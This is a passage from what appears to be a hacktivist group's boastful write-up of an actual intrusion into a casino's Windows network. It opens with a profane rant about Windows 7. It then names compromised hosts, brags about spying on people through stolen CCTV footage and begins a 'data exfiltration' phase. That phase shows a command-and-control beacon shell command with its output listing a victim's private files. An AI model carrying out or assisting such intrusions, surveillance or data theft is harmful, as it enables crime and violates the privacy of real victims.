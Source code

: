 Why the fuck do you have Windows 7 devices installed to this day and age users? I get it if you're using it for malware analysis purposes or creating malware in a VM. I just can't help why. Just install GNU+Linux on your machines if you want to save money!

![[screen_c521df38_825562406.jpg]]

### Data Exfiltration

Alright that's enough of my rambling. While we're popping new beacon sessions and took screenshots as we go. We found some particular names that does stands out ot us after perform the first phase for internal recon and we had to look at the targets list like **POKERCLUB-PC**, **JOKERCLUB1**, **JOKERCLUB2**, **CCTV-UPGR**, **CCTV-UPRG2**, **HERCULES**, etc. You may have seen our posts on telegram channel (https://t.me/GhostSecc) as you can tell it's the CCTV footages from those Windows workstations and it was fun spying people from someone's computer lulz.

Now this is where the fun part or boring part or however you like to take it. Data exfiltration phase! It can be a quite daunting task and yes it is. Doing it manually through the **Right-Click** -> **File Browser** just doesn't feel productive at all and who knows how many files you'll have to download them either through your main C&C or a dedicated server to store the loot. This is why the command line is more powerful than you think user. It's handy when it comes with these situations after taking extensive notes to do a powershell one-liner to enumerate how many files are found and what files we need to look for. Since this is just a casino they only have documents just like most businesses.

Let's take **POKERCLUB-PC** as an example. He was working on the spreadsheet file and it incidents this compromised host may contain sensitive documents.

![[screen_9812d886_874469498.jpg]]

After looking through the **File Browser** at the compromised workstation. We had to the check if there are more drives by clicking **List Drives** to enumerate the machine even further. Look for mounts other than the default `C:\` drive. We saw `C:\PokerClub` and this is what it looks like.

```
beacon> shell dir /s C:\PokerClub
[*] Tasked beacon to run: dir /s C:\PokerClub
[+] host called home, sent: 50 bytes
[+] received output:
 Том в устройстве C имеет метку Windows 10
 Серийный номер тома: 0EB8-A421

 Содержимое папки C:\PokerClub

Вт 15.03.22  21:26    <DIR>          .
Вт 15.03.22  21:26    <DIR>          ..
Пн 10.01.22  04:22    <DIR>          2022 подготовка
Сб 29.01.22  09:03    <DIR>          backgground
Пт 06.08.21  07:54    <DIR>          BACKUP
Чт 02.12.21  04:14           120 448 Freebuy (4lvl)+Double Addon (12 по 20)new.tdt
Ср 03.11.21  01:23        16 527 754 FS Capture 9.7 portable FULL.exe
Ср 23.03.22  16:52    <DIR>          FSCapture9.7
Пн 06.12.21  22:31            47 160 IMPORT.csv
Ср 03.11.21  07:57            91 016 RPT _IPC_Minsk_May_2021_Structure.pdf
Пт 17.12.21  09:38    <DIR>          SPT
Чт 02.12.21  04:13    <DIR>          SPT #2
Вс 15.08.21  11:11    <DIR>          TEMPLATES
Вт 01.02.22  01:43    <DIR>          Архив
Вт 09.11.21  05:17    <DIR>          Разобрать
Вт 01.03.22  23:49         2 003 207 Рега ПУСТАЯ.xlsx
Сб 15.01.22  21:06    <DIR>          Результативность
Сб 05.03.22  04:34    <DIR>          Статистика
Пн 27.12.21  07:12           347 695 Статистика 2022.xlsx
Ср 15.12.21  08:42            19 482 Структура SPT1.xlsx
Пт 18.03.22  18:37    <DIR>          Табрисов
Вс 21.11.21  14:22    <DIR>          Фото
```